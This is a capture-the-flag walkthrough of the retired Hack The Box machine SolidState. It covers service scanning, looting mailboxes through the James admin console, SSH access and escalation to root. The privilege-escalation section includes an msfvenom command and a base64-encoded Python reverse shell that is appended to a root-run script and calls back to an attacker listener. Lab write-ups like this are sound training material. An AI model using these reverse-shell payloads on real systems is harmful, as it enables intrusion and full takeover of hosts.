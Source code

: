 ```yaml
---
layout: post
title: "HTB-SolidState"
categories: HTB-Walkthrough
---
```



![solidstate](/assets/img/solidstate/solidstate.png)

SolidState is another OSCP-like box from the HTB 'retired' archive.

<h4>Nmap</h4>

`nmap -sV -Pn 10.10.10.51 |tee -a solid.txt`

```

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-28 17:07 EST
Warning: 10.10.10.51 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.51
Host is up (0.097s latency).
Not shown: 65469 closed ports, 60 filtered ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.20 seconds

```

After googling 'exploit james 2.3.2' I hit upon a method...


First use telnet to access James Remote Admin

![james-admin](/assets/img/solidstate/solidstate-james-admin1.png)

Now to check each mailbox for loot.

![mailbox-loot](/assets/img/solidstate/solid-mailbox-loot.png)

![mailbox-loot2](/assets/img/solidstate/solid-mailbox-loot2.png)

![mailbox-loot3](/assets/img/solidstate/solid-mailbox-loot3.png)

<hr width="250" size="6">


This information, allows us to gain access to Mindy's user account.

`ssh mindy@10.10.10.51`


```

root@kali:~/HTB/retired/solidstate# ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt
91xxxxxxxxxxxxxxxxxxxxxxxxxxxx75
mindy@solidstate:~$ 

```

mindy has a very restricted shell.....so I try build up the available commands...

```

BASH_CMDS[ls]=/bin/ls
BASH_CMDS[uname]=/bin/uname
BASH_CMDS[nano]=/bin/nano
BASH_CMDS[cat]=/bin/cat

```

The shell is restricted but we can get around this with james.py exploit
which will give us better shell.


```

#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

```
We run the exploit, and get a better shell as mindy.



<h3>Privilege Escalation</h3>

found /opt/tmp.py

we cannot replace, but we can append to it...

```

msfvenom -p cmd/unix/reverse_python lhost=10.10.14.19 lport=443 -a cmd -e generic/none --platform unix

```

```

echo "exec('aW1wb3J0IHNvY2tldCAgICwgIHN1YnByb2Nlc3MgICAsICBvcyAgOyAgICAgICAgIGhvc3Q9IjEwLjEwLjE0LjE5IiAgOyAgICAgICAgIHBvcnQ9NDQzICA7ICAgICAgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVUICAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKSAgOyAgICAgICAgIHMuY29ubmVjdCgoaG9zdCAgICwgIHBvcnQpKSAgOyAgICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICwgIDApICA7ICAgICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgLCAgMSkgIDsgICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAsICAyKSAgOyAgICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))" >> /opt/tmp.py

```


set listener ....
`nc -nlvp 443`

....and wait....


```

root@kali:~/HTB/retired/solidstate# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.51] 48652
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
cat /root/root.txt
b4xxxxxxxxxxxxxxxxxxxxxxxxxxxxc9
hostname
solidstate


```

:)
